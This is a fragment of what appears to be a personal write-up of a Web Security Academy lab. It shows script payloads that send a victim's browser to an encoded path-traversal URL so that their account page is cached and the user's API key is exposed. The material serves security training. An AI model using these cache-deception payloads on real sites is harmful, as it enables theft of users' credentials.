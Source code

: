 <img src="images/image58.jpg" alt="third" width="500">

So we send this script to use

```
<script>document.location="https://0ac8000e03e2a093800e8a5400420079.web-security-academy.net/my-account%23%2f%2e%2e%2fresources?hello1"</script>
```

I also try with # delimiter
```
<script>document.location="https://0ac8000e03e2a093800e8a5400420079.web-security-academy.net/my-account#%2f%2e%2e%2fresources?hello2"</script>
```

But this is not working

<img src="images/image59.jpg" alt="third" width="500">

Now when we type the url in new tab we have carlos user api key
